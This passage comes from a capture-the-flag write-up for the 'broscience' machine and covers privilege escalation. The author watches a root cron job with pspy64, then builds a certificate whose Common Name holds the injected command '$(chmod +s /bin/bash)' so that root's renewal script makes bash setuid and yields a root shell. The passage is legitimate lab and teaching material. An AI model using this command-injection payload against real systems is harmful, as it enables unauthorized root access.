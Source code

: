 This could potentially be a cronjob that is running, so I downloaded and ran `pspy64` to make sure. We would see the root user running this:

```bash
/bin/bash -c /opt/renew_cert.sh /home/bill/Certs/broscience.crt
```

Very obviously, the `commonName` parameter is where we would store our payload to become root. We can use `openssl` to generate a quick cert to exploit this and create an SUID bash binary. We can leave all the other parameters blank except for the Common Name.&#x20;

```
bill@broscience:~/Certs$ openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout broscience.key -out broscience.crt
Generating a RSA private key
.....................................................................................++++
....................++++
writing new private key to 'broscience.key'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:$(chmod +s /bin/bash)
Email Address []:
```

After a while, it would execute and allow us to spawn in a root shell.

<figure><img src="../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>
